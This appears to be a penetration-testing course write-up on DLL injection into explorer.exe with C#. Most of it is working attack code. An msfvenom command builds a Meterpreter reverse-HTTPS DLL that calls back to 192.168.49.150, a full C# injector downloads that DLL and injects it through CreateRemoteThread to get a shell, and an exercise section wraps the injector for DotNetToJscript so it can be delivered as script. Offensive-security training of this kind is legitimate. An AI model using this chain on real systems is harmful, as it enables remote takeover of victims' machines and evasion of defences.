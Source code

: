 ## Practical
We start by generating a dll with msfvenom:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f dll -o /var/www/html/met.dll
```
And then start a ConsoleApp project in Visual Studio.

We will start the code by writing the DLL to disk because _LoadLibrary_ only accepts files present on disk.
The code to save the dll on disk and getting it's path is as follows:
```C#
using System.Net;

String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";

WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.49.150/met.dll", dllName);
```

Next, we'll resolve the process ID of explorer.exe and pass it to _OpenProcess_:
```c#
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
```

As usual, we use _VirtualAllocEx_ to allocate memory in the remote process that is readable and writable and then use _WriteProcessMemory_ to copy the path and name of the DLL into it:
```C#
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x4);

IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
```

We will now resolve the base address of _LoadLibraryA_ inside the remote process.
This is easy as most native Windows DLLs are located at the same base address across processes, thus the address of our _LoadLibraryA_ API will be the same even in the remote process.

To locate the address, we'll use a combination of _GetModuleHandle_ and _GetProcAddress_.
```C#
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
```

Finally, we can invoke _CreateRemoteThread_, this time supplying both a starting address and an argument address:

```C#
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
```

Our final code is as follows:
```C#
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.49.150/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

Compiling and executing the code we get a shell.

## Exercise
We use DotNetToJscript to compile the code into a jscript file as follows:
```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;
using System.Net;
using System.Text;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    public TestClass()
    {
        String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = dir + "\\met.dll";

        WebClient wc = new WebClient();
        wc.DownloadFile("http://192.168.49.150/met.dll", dllName);

        Process[] expProc = Process.GetProcessesByName("explorer");
        int pid = expProc[0].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
We compile the code and run the exampleassembly.dll thru the DotNetToJscript executable with required arguments and run the jscript file produced to get a shell.

